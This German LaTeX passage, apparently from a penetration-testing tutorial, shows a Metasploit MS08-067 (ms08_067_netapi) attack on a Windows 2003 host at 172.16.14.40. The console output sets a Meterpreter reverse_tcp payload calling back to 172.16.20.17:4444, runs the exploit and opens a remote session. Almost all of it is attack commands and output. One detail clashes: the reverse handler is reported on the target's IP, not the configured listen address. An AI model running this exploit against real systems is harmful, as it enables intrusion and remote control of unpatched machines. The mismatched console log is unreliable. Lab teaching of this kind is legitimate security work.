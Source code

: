 Die vorgenommenen Einstellungen werden überprüft:
\begin{lstlisting}[language=Metasploit]
msf  exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    172.16.14.40     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST     172.16.20.17     yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic Targeting
\end{lstlisting}

Der Exploit wird gestartet:
\begin{lstlisting}[language=Metasploit]
msf  exploit(ms08_067_netapi) >
msf  exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 172.16.14.40:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 - No Service Pack - lang:Unknown
[*] Selected Target: Windows 2003 SP0 Universal
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 172.16.14.40
[*] Meterpreter session 1 opened (172.16.20.17:4444 -> 172.16.14.40:1028)

at 2012-07-07 11:30:14 +0200
\end{lstlisting}

